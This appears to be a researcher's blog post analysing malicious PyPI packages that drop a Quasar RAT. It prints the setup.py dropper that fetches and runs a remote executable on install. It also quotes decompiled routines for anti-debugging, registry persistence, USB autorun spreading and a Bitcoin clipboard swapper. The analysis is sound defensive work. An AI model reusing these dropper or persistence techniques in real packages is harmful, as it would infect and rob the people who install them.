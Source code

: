 ```yaml
---
title: "DreamyOak Quasar Malware"
date: 2023-07-22T14:01:23-05:00
draft: false
tags: ['python','malware']
summary: "Following the kill chain of a malicious Python package, and decompiling a basic Quasar RAT while rapidly learning some valuable lessons."
---
```


Recently we were flagged for the detection of a threat actor we've seen a few times in the past, DreamyOak. This individual has maintained a fairly consistent presence on the Python Package Index, often using the pseudonym 'Nagogy' to distribute their malware. In the most recent flags, **nagiepy v3.422.0** and **nageir v0.1.2** pinged off of our detection schemas, and were promptly reported and removed. Let's take a deep look into what these files actually are. I'm going to walk through this in the sequence of events that I took during the actual analysis of this script.

## Initial Analysis

```python
import requests
import os
import subprocess
url = '****************/cdn/MEYeniKS.exe'
response = requests.get(url)

with open('windows.exe', 'wb') as f:
    f.write(response.content)
subprocess.run('windows.exe', check=True)
```

Pretty simple dropper script, runs during **setup.py**, drops a file, then runs it. For the uninitiated, **setup.py** is a script used to... well, setup Python packages. PIP interfaces with **setup.py** to determine requirements and information, and as such, allows the arbitrary execution of code contained within **setup.py**. Which means, subsequently, that simply `pip install <package>` would download and run this payload.

But we can do better than just determining this is a dropper, let's dig a little deeper. I went ahead and curled down the executable from the URL and ran it through Detect It Easy.

```bash
remnux@remnux:~/Malware/nageir$ diec MEYeniKS.exe
PE32
    Library: .NET(v4.0.30319)[-]
    Compiler: VB.NET(-)[-]
    Linker: Microsoft Linker(8.0)[GUI32]
```

Dotnet's are always fun. As an aside, I got to about this point, and spent 30 minutes trying to figure out where the Dotnet SDK was on REMnux, before acquiescing and consulting the documentation, which... let me know that ILSpy, the program I was going to use to disassemble this, was already installed in command line form via `ilspycmd`. Enjoy some schadenfreude.

Anywhoozit, whack it with the ILSpy bat: `ilspycmd MEYeniKS.exe`. And out pops... well, exactly what we're looking for. I appreciate it when it's easy.

## Diving into .NET

The first indicator of what exactly I might be looking at came in the form of **QuasarClient**:

```csharp
 internal static class Program
 {
  public static QuasarClient ConnectClient;

  private static ApplicationContext _msgLoop;
```

Quasar is a recognized RAT. Got it by the first line, we're done here, pack it up and send 'em home...

Or not. There's about 20,000 lines of code here. Certainly there's something else going on. Let's dig a little deeper into what in the world DreamyOak has for us.

```csharp
if (Settings.ANTIDEBUG){
 if (Debugger.IsAttached){
  Process.GetCurrentProcess().Kill();
  }
 if (IsDebuggerPresent()){
  Process.GetCurrentProcess().Kill();
  }
 }
if (Settings.ENABLEANTIVM && IsAntiVM()){
 Process.GetCurrentProcess().Kill();
 }
if (Settings.ENABLEANTISANDBOXIE && DetectSandboxie()){
 Process.GetCurrentProcess().Kill();
 }
```

Well, it's an *attempt* at AntiVM and AntiDebugger. As an aside, it's very entertaining to me just how often we see this in scripts that statically decompile/disassemble. Your program cannot possibly check if there's a debugger if... I'm not using one. Anyway, moving right along. Side note, I tried to make this a little more human readable. I can assure you that... significant author liberties have been taken in reformatting this code to be less offensive.

```csharp
if (Settings.STARTUPPERSISTENCE){
 Thread thread2 = new Thread((ThreadStart)delegate{
  while (true){
   try{
    if (!keyExists(Settings.STARTUPKEY)){
     RegistryKeyHelper.AddRegistryKeyValue((RegistryHive)(-2147483647), "Software\\Microsoft\\Windows\\CurrentVersion\\Run", Settings.STARTUPKEY, ClientData.CurrentPath, addQuotes: true);
    }
   }
   catch{
   }
   Thread.Sleep(5000);
  }
 });
 thread2.IsBackground = true;
 thread2.Start();
```

Well neato, we've got some registry persistence and with a nice long sleep to make sure we're continually adding it in the event that the registry is restored but the malware itself is not removed. That'll be a little spookier later on.

```csharp
if (Settings.ENABLEUSBSPREAD){
 Thread thread3 = new Thread((ThreadStart)delegate{
  SpreadUSB();
 });
 thread3.IsBackground = true;
 thread3.Start();
}
if (Settings.ENABLEBTCSWAP){
 Thread thread4 = new Thread((ThreadStart)delegate{
  BTCSWAPPERRUN();
 });
 thread4.IsBackground = true;
 thread4.Start();
```

USB Spread? Well that's interesting, we'll discuss that later. Elsewhere, we see BTCSWAP is going to be a generic cryptoclipper. I'm not going to spend a whole lot of time talking about that, but it essentially simply finds valid BTC addresses in your clipboard and replaces them with the malware author's BTC address instead, thus resulting in you sending them money.

Let's talk about USB Spread though.

```csharp
private static void SpreadUSB(){
 //IL_001a: Unknown result type (might be due to invalid IL or missing references)
 //IL_0020: Invalid comparison between Unknown and I4
 DriveInfo[] drives = DriveInfo.GetDrives();
 foreach (DriveInfo val in drives){
  if (!val.get_IsReady() && (int)val.get_DriveType() != 2){
   continue;
  }
  try{
   string text = val.get_Name() + "autorun.inf";
   string text2 = val.get_Name() + Settings.USBSpreadNAME + ".exe";
   if (File.Exists(text)){
    File.Delete(text);
   }
   if (File.Exists(text2)){
    File.Delete(text2);
   }
   using StreamWriter streamWriter = new StreamWriter(new FileStream(text, FileMode.Create, FileAccess.Write));
   streamWriter.WriteLine("[AutoRun]");
   streamWriter.WriteLine("action=" + Settings.USBSpreadNAME + ".exe");
  }
  catch{
  }
 }
}
```

So I consulted with some ~~random people on the internet and Google~~ experts and they revealed to me that this *shouldn't* actually work. But on the premise that I think it's cute, this attempts to write itself to connected USB devices and instantiate the script via an **autorun.inf** by replacing the current autorun scripts. Does it work? Eh-- I don't think out of the box. But if the device is already trusted, this may be used to swap the payload on the device and thus work as expected. Like I said, cute.

Other than that, there isn't anything shocking in here, I thought this got some fail points though.

```csharp
AES.SetDefaultKey(ENCRYPTIONKEY);
TAG = AES.Decrypt(TAG);
VERSION = AES.Decrypt(VERSION);
HOSTS = AES.Decrypt(HOSTS);
SUBDIRECTORY = AES.Decrypt(SUBDIRECTORY);
INSTALLNAME = AES.Decrypt(INSTALLNAME);
MUTEX = AES.Decrypt(MUTEX);
STARTUPKEY = AES.Decrypt(STARTUPKEY);
LOGDIRECTORYNAME = AES.Decrypt(LOGDIRECTORYNAME);
USBSpreadNAME = AES.Decrypt(USBSpreadNAME);
BTCAddress = AES.Decrypt(BTCAddress);
```

Encrypted host information is typically problematic for us-- it would be nice to be able to get the values of the-- oh. Wait.

```csharp
public static string ENCRYPTIONKEY = "CN2muEFrSR3WC5IfEA2p";
```

Never mind, we're good. A quick scroll through the program reveals more or less a lot of the function definitions and not much of interest that wouldn't just be me talking about coding in general, so I'll keep it brief and cut it off here.

## Afterthoughts

It's about now as I'm writing this that another team member has managed to track down some additional information about what, exactly I'm decompiling. And as anticipated (or rather, shown to me) in line 1, this is indeed a simple Quasar RAT. Fun exercise though!

Lessons Learned:

- Google the payload name you found on line 1 so you don't waste your time.
- Prebuilt RE distributions are cool but locating tools requires an iota of brainpower.
- If a function exists overtly named "BTCSWAPPERRUN", the functions probably tell you what everything does.
- Hard-coded AES keys are really cool and everyone should use them in their malware.

